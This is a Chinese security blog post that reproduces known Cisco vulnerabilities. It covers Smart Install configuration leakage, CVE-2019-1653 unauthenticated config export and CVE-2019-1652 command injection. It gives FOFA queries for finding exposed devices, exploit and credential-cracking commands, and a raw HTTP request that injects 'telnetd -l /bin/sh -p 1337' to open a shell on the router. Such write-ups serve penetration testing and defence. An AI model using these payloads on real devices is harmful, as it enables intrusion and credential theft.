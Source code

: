 

# cisco 设备信息泄漏漏洞案例

近期遇到了几个 cisco 配置信息泄漏的案例，借此机会复现下 cisco 常见的几个漏洞。

info

本文首发 合天网安 [https://mp.weixin.qq.com/s/efrcXS\_uiXp0LzUaaEJ-MA](https://mp.weixin.qq.com/s/efrcXS_uiXp0LzUaaEJ-MA)

- - -

## [](#cisco-smi-%E9%85%8D%E7%BD%AE%E6%B3%84%E6%BC%8F)cisco SMI 配置泄漏

Cisco SMI 是一种即插即用功能，可为 Cisco 交换机提供零接触部署并在 TCP 端口 4786 上进行通信。如果发现开放 4786 端口的 cisco 设备，那可以深入测试一下。

fofa 语句 *protocol=“smi”*

[![Untitled](assets/1710207723-84d138793c950fea4a80473b5cd1b525.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled.png)

影响目标还挺多的

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>git clone https://github.com/ChristianPapathanasiou/CiscoSmartInstallExploit<br>cd CiscoSmartInstallExploit<br>pip2 install tftpy<br>python2 cisco.py [ip]<br>``` |

注意用 python2 运行，运行成功会下载目标的运行配置

[![Untitled](assets/1710207723-f1951bb63669e1a97c21573fae584b5b.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%201.png)

配置文件中存有设备用户密码，ACL 配置，ftp 配置账号密码等敏感信息

如果想进一步分析配置文件可以下载 ccat 工具进行自动化分析

[https://github.com/frostbits-security/ccat](https://github.com/frostbits-security/ccat)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>git clone https://github.com/frostbits-security/ccat.git<br>cd ccat<br>pip3 install -r requirements.txt<br>python3 ccat.py configuration_file<br>``` |

[![Untitled](assets/1710207723-1d7e6141d98c6db5edea03ccc2164acd.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%202.png)

我们可以使用 **–dump-creds** 参数 dump 出账号密码

[![Untitled](assets/1710207723-7a3ec6c15e19bd2efea87feba24fe689.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%203.png)

文件名 m500 的可以用 hashcat -m 500 的掩码进行爆破，5700 同理

[![Untitled](assets/1710207723-bdce1669883c9407900a184203516a5b.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%204.png)

- - -

## [](#cve-2019-1652--cve-2019-1653)CVE-2019-1652 && CVE-2019-1653

Cisco RV320 路由器的配置可以在未经身份验证的情况下通过设备的 Web 界面导出。

fofa 语句 app=“CISCO-RV320”

对应 poc

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>ip:port/cgi-bin/config.exp<br>``` |

[![Untitled](assets/1710207723-6e4f231528ff1de32713c866eb9a032c.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%205.png)

下载的配置文件中有账号和 md5 的密码，不过 md5 的格式为 `md5($password.$auth_key)`，其中 auth\_key 是一个静态值，可以通过直接访问 / 路径找到。

[![Untitled](assets/1710207723-87548a479399356b7c0d2370855b5fc3.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%206.png)

当然在通过 CVE-2019-1653 获得了账号和 md5 的密码后可以通过替换登录包的 hash 进行登录，无需解密

[![Untitled](assets/1710207723-78291cdde6e3bc99e19ab997fefa430a.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%207.png)

[![Untitled](assets/1710207723-6602510b739902ae4bda1d242671d205.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%208.png)

后台可以配合 CVE-2019-1652 进行 rce

github 上的利用 poc 由于不支持目标的自签名证书 [https://github.com/0x27/CiscoRV320Dump/blob/master/easy\_access.py](https://github.com/0x27/CiscoRV320Dump/blob/master/easy_access.py) 这里就手动发包进行测试

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```fallback<br>POST /certificate_handle2.htm?type=4 HTTP/1.1<br>Host: x.x.x.x<br>Upgrade-Insecure-Requests: 1<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9<br>Accept-Encoding: gzip, deflate<br>Accept-Language: zh-CN,zh;q=0.9<br>Cookie: mlap=RGVmYXVsdDk6Ojo6Y2lzY28=<br>Connection: close<br>Content-Type: application/x-www-form-urlencoded<br>Content-Length: 319<br><br>page=self_generator.htm&totalRules=1&OpenVPNRules=30&submitStatus=1&log_ch=1&type=4&Country=A&state=A&locality=A&organization=A&organization_unit=A&email=ab%40example.com&KeySize=512&KeyLength=1024&valid_days=30&SelectSubject_c=1&SelectSubject_s=1&common_name=a%27%24%28telnetd%20-l%20%2Fbin%2Fsh%20-p%201337%29%27b<br>``` |

payload 执行后会用 telnet 在本地监听 1337 口

连接验证

[![Untitled](assets/1710207723-a3ff6b19d0a0c09c731f11ddee6175ed.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%209.png)

- - -

## [](#%E6%80%BB%E7%BB%93)总结

1.  cisco 设备国内互联网公司和企事业用的不多，近年来都被国产品牌替换了。
2.  python 的 poc 经常会遇到一些历史遗留问题，比如 tls 版本过低，依赖库安装报错不兼容等等问题，建议还是用 go 写 poc，利人利己。
